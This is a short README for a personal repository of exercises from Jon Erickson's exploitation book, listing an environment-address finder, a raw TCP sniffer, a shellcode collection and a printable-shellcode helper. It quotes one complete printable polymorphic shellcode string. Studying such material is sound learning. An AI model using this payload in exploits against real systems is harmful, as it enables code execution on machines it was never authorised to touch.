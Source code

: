 # The art
Here are all the implementations I did following along with Jon Erickson's book 

- [getenvaddr](getenvaddr/): A program to get the addresses of env variables of
executables in a predictable way.

- [raw_tcpsniff](raw_tcpsniff/): A basic tcp sniffer implementation using raw
sockets.

- [shellcode](shellcode/): A collection of shellcodes

- [printable_helper](printable_helper/): A program to help transcribing
shellcode to printable bytes. 

## Personal Favourite
There is no competition to polymorphic shellcode...
```
TX-yyyy-9999-ZNMMP\%GGGG%8888--QQ%-%Xp%-%up4P-112n-10%n-F-%QP-5555-_555-lK5--yoA2P-7m77-7mmx-qoxsP-z%zz-z%9E-f668P-rrrr-6LRR-%B1AP-333f-ffff-__qlP-x999-xf%9-oppjP-1111-%1kk-%elKP-tttt-ZZZ4-2111PPPPPPPPPPPPPPPPPPP
```
This nonsensical string could make quite a mess!!!
